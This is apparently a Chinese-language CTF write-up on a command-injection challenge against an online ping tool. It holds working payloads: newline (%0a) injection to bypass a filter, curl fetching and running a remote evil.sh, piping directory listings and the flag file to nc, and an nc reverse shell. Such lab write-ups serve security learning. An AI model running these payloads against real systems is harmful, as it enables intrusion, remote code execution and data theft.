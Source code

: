 ### fuzz

是一个提供了ping命令的在线网站

![image-20220412112049704](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220412112049704.png)

ping是一个在shell中执行的命令，假如我们可以传入恶意用户输入，可以在shell中执行任意命令的话，想要读个flag文件显然不难。

我先是使用了自己的命令行做了一下测试，测试中也遇到不少奇怪的问题，但是发现个可以利用的点

我这里用&把前面的命令挂起，就可以执行后面的命令

![image-20220412114037460](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220412114037460.png)

不过试了试发现题目把&过滤了

![image-20220412114122744](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220412114122744.png)

那看来需要fuzz一下看看过滤了什么，然后再想想能用什么了，我用burpsuite抓包然后来进行fuzz测试

找了好久也没找到什么burpsuite可以用来fuzz单个字符的方法，但是我看别人的wp都能用burpsuite来fuzz单个字符，好奇怪，只能先不管了。

### 换行符绕过waf

总之参考别人的wp，这里绕过过滤执行shell命令的方法是用%0a，也就是url编码的换行符来执行shell命令，由于docker是没有bash、python程序的，官方wp中提到sh反弹是不行的，那这里只能用curl先获取写在我自己服务器上的.sh文件，将想要执行的恶意代码放进.sh文件中，在题目环境中先用curl获取这个.sh文件并放进tmp目录下，再执行.sh文件，命令执行的结果输出到我服务器监听的端口上，下面是payload，在服务器上放一个evil.sh文件，并且在文件中先后写入`ls -la /| nc ip`看到ls的结果后）知道flag文件名字是FLAG，将evil.sh的内容改成`cat /FLAG | nc ip`，再执行一遍即可。

先让evil.sh的内容为`ls -la / | nc ip port`，

payload:`ip=127.0.0.1%0acurl ip:port/evil.sh /tmp/evil.sh` 将放在我服务器上的evil.sh下载到靶机的tmp目录下

payload:`ip=127.0.0.1%0achmod 777 /tmp/evil.sh`用chmod命令给文件执行权限（实际上不用chmod给权限也可以执行）

`nc -nvlp 8089`在我服务器上开启端口监听，这样后面执行evil.sh后可以把结果发到我服务器上

payload:`ip=127.0.0.1%0ash /tmp/evil.sh` 用sh命令执行evil.sh，执行evil.sh中的恶意代码

需要注意一下`ls -la /`这个命令，如果不加/，那么直接ls会在root目录下执行，FLAG放在根目录下，这样你会发现没有flag文件，加了/后发现FLAG文件就在根目录下

![image-20220412225240205](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220412225240205.png)

那接下来就修改一下evil.sh 里面内容为`cat /FLAG | nc ip port`就可以

payload:`ip=127.0.0.1%0acurl ip:port/evil.sh /tmp/evil.sh` 将放在我服务器上的evil.sh下载到靶机的tmp目录下

payload:`ip=127.0.0.1%0achmod777 /tmp/evil.sh`用chmod命令给文件执行权限（实际上不用chmod给权限也可以执行）

`nc -nvlp 8089`在我服务器上开启端口监听，这样后面执行evil.sh后可以把结果发到我服务器上

payload:`ip=127.0.0.1%0ash /tmp/evil.sh` 用sh命令执行evil.sh，执行evil.sh中的恶意代码

![image-20220412224057283](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220412224057283.png)

拿到flag啦，但是拿到flag后我又很奇怪其中的一些步骤为什么反弹shell不行，因为这里是有nc的，所以我就尝试用nc反弹shell了

在evil.sh中写入`nc ip port -e /bin/sh`，然后还是和上面一样用`ip=127.0.0.1%0acurl ip:port/evil.sh /tmp/evil.sh`把文件读到/tmp目录下并且用`ip=127.0.0.1%0ash /tmp/evil.sh`执行evil.sh，发现可以成功弹shell...可能是BUU的环境不太对劲？这就不清楚了。
